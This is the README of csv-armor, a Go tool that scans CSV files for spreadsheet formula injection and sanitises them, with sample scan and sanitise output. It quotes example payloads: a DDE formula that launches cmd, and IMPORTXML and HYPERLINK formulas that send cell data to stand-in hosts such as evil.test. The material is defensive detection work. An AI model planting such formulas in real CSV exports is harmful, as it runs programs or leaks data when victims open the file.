


# csv-armor

[English](README.md) | [中文](README.zh.md) | [日本語](README.ja.md)

[](LICENSE) [](go.mod) [](CHANGELOG.md)  [](CONTRIBUTING.md)

**csv-armor：在电子表格执行你的数据之前，检测并中和 CSV 公式注入。**



```bash
git clone https://github.com/JaydenCJ/csv-armor && cd csv-armor
go build -o csv-armor ./cmd/csv-armor    # single static binary, stdlib only
```

> 预发布：v0.1.0 尚未在任何包注册表打标签；请按上面的方式从源码构建（任意 Go ≥1.22）。

## 为什么用 csv-armor？

任何允许用户往单元格填文本、之后又导出为 CSV 的功能，都是公式注入的汇点：文件被打开时，Excel、Google Sheets 或 LibreOffice 会把以 `= + - @`（或前导 TAB）开头的单元格当作*公式*求值——于是一张标题为 `=cmd|' /C calc'!A0` 的工单会运行程序，而 `=IMPORTXML("http://evil.test?"&A1)` 会外泄整行。它列在 OWASP 上，也在赏金项目里反复出现，但多数代码库只用一行前缀去"修"，一个前导空格就能绕过；或者用一个连负数和电话列都一起弄坏的黑名单。csv-armor 是共享同一套分类的两个工具：一个带 CI 友好退出码和 SARIF 输出的**扫描器**，为每条发现引用确切原因；以及一个用有文档记录、按应用区分的转义规则来中和单元格的**净化器**——所以在 CI 里标记载荷的引擎，正是导出时拆除它的那一个。

| | csv-armor | 手动 `'` 前缀 | 朴素黑名单 | 电子表格导入防护 |
|---|---|---|---|---|
| 检测 `= + - @` 触发字符 | ✅ | 不适用 | ✅ | ✅ |
| 处理前导空格绕过 | ✅ | ❌ | 通常 ❌ | 视情况 |
| 按应用区分规则（Excel/Sheets/LibreOffice） | ✅ | ❌ | ❌ | 仅一种应用 |
| 升级 DDE / 网络函数载荷 | ✅ | ❌ | ❌ | ❌ |
| 对数字/电话无误报 | ✅ | 不适用 | ❌ | ✅ |
| CI 退出码 + SARIF | ✅ | ❌ | ❌ | ❌ |
| 扫描器*与*净化器，同一套分类 | ✅ | 仅净化 | 仅检测 | 仅净化 |
| 运行时依赖 | 0 | 0 | 视情况 | 不适用 |

<sub>依赖数于 2026-07-12 核对：csv-armor 仅导入 Go 标准库。载荷与规则参考遵循 OWASP CSV 注入指南。</sub>

## 功能

- **两个工具，一个引擎** —— `scan` 与 `sanitize` 子命令共享同一个单元格分类器，所以扫描器在单元格起始处标记什么，净化器就能可证明地中和什么（测试里对整个载荷语料做了断言）。
- **按应用区分的转义规则** —— `--profile excel|sheets|libreoffice|all` 建模每个程序实际认可的触发字符和可联网函数；完整表格见 [docs/escaping-rules.md](docs/escaping-rules.md)。
- **反映真实风险的严重度** —— 单纯的 `=1+1` 是中危，但触及 DDE（`=cmd|'…'!A0`）或网络函数（`WEBSERVICE`、`IMPORTXML`、`HYPERLINK`）的单元格会升级为高危，因为它们在打开时执行代码或外泄数据。
- **面向 CI 的输出** —— `scan --fail-on high` 以退出码 1 卡住流水线，`--format sarif` 把发现直接送进 GitHub 代码扫描标签页；`--format json` 是稳定的 `schema_version: 1` 信封。
- **低误报** —— 默认豁免有符号数字、国际电话号码和裸 `@handle`，并提供 `--paranoid` 在静默数据损坏也要紧时标记它们。
- **忠实的净化** —— `quote` 模式加上 OWASP 的单引号（可见值不变），`strip` 模式移除触发字符；两者都保留文件的分隔符、BOM 和行尾。
- **零依赖、完全离线** —— 仅用 Go 标准库；csv-armor 读本地文件、写本地文件，仅此而已。没有遥测，永不联网。

## 快速开始

```bash
git clone https://github.com/JaydenCJ/csv-armor && cd csv-armor
go build -o csv-armor ./cmd/csv-armor
./csv-armor scan examples/exports.csv
```

真实采集输出：

```text
examples/exports.csv
  5 finding(s) across 35 cells (comma-delimited)
  !   R3C3  [medium/formula]  cell starts with "=" — the application evaluates it as a formula
         value: =1+1
  !!  R4C3  [high/dde]  DDE payload piping to "cmd" — opening the file can execute a local program
         value: =cmd|' /C calc'!A0
  !!  R5C3  [high/exfiltration]  calls IMPORTXML() — can send sheet data to an attacker-controlled host
         value: =IMPORTXML("http://example.test/x","//a")
  ·   R6C3  [low/at-sign]  cell starts with "@" — Excel evaluates legacy Lotus @-functions
         value: @SUM(A1:A9)
  !!  R7C3  [high/exfiltration]  calls HYPERLINK() — can send sheet data to an attacker-controlled host
         value: =HYPERLINK("http://example.test?leak="&A1)

summary (profile: all)
  files          1 scanned, 1 flagged
  cells          35
  findings       5  (high 3, medium 1, low 1)
  by kind        at-sign 1, dde 1, exfiltration 2, formula 1
```

加固导出，使任何内容都不会被求值（`csv-armor sanitize`，真实输出）：

```text
id,name,note,phone,balance
1,Alice,welcome aboard,+1 555-0100,-25.00
2,Bob,'=1+1,+44 20 7946 0000,-1250.50
3,Mallory,'=cmd|' /C calc'!A0,+81 90-1234-5678,0
4,Eve,"'=IMPORTXML(""http://example.test/x"",""//a"")",+1 555-0142,42.00
5,Trent,'@SUM(A1:A9),+1 555-0177,-3.50
6,Peggy,"'=HYPERLINK(""http://example.test?leak=""&A1)",+1 555-0188,17.25
```

## 检测参考

分类基于规则且可引用 —— 完整的按应用规则见 [docs/escaping-rules.md](docs/escaping-rules.md)。

| 类别 | 示例单元格 | 严重度 |
|---|---|---|
| `formula` | `=SUM(A1:A9)` | 中 |
| `arithmetic` | `+1+1`、`-2+3` | 低 |
| `at-sign` | `@SUM(A1:A2)`（仅 Excel） | 低 |
| `control` | 以 TAB 或 CR 开头的单元格（仅 Excel） | 低 |
| `dde` | `=cmd|' /C calc'!A0`、`=DDE(…)` | 高 |
| `exfiltration` | `=WEBSERVICE(…)`、`=IMPORTXML(…)`、`=HYPERLINK(…)` | 高 |
| `embedded` | 多行单元格的后续某行以触发字符开头 | 低 |

## CLI 参考

`csv-armor [scan|sanitize|version] [flags] [path]`。退出码：0 正常，1 发现达到/超过 `--fail-on`，2 用法错误，3 运行时错误。

| 标志 | 默认 | 作用 |
|---|---|---|
| `--profile` | `all` | 规则集：`all`、`excel`、`sheets`、`libreoffice` |
| `--delimiter` | 自动 | 强制分隔符，例如 TSV 用 `tab`（默认：嗅探） |
| `--paranoid` | 关 | 也标记有符号数字、电话和裸 `@handle` |
| `--format`（scan） | `text` | `text`、`json` 或 `sarif` |
| `--fail-on`（scan） | `high` | 在此严重度退出 1：`high`、`medium`、`low`、`none` |
| `--quiet`（scan） | 关 | 只打印单行摘要 |
| `--mode`（sanitize） | `quote` | `quote`（加 `'`）或 `strip`（移除触发字符） |
| `--in-place`（sanitize） | 关 | 覆盖输入文件 |
| `--output`（sanitize） | —— | 把净化后的 CSV 写入此文件 |

## 架构



## 路线图

- [x] v0.1.0 —— 按应用的检测引擎、DDE/外泄升级、带 text/JSON/SARIF 和 `--fail-on` 卡口的扫描、quote/strip 净化器、90 个测试 + 冒烟脚本
- [ ] 面向超过内存大小的 CSV 的流式模式
- [ ] 按列限定的规则（`--only col=note` / `--ignore col=formula_ok`）
- [ ] 一个 pre-commit 钩子配置和一个可复用的 GitHub Action 封装
- [ ] Excel `.xlsx`/`.xlsm` 共享字符串扫描（不仅是 CSV）
- [ ] 每个 profile 可配置的自定义网络函数列表

完整清单见 [open issues](https://github.com/JaydenCJ/csv-armor/issues)。

## 贡献

欢迎提交 issue、参与讨论和 pull request —— 本地流程（格式化、vet、测试、`SMOKE OK`）见 [CONTRIBUTING.md](CONTRIBUTING.md)。适合上手的入口标记为 [good first issue](https://github.com/JaydenCJ/csv-armor/issues?q=is%3Aissue+is%3Aopen+label%3A%22good+first+issue%22)，设计问题在 [Discussions](https://github.com/JaydenCJ/csv-armor/discussions)。

## 许可

[MIT](LICENSE)
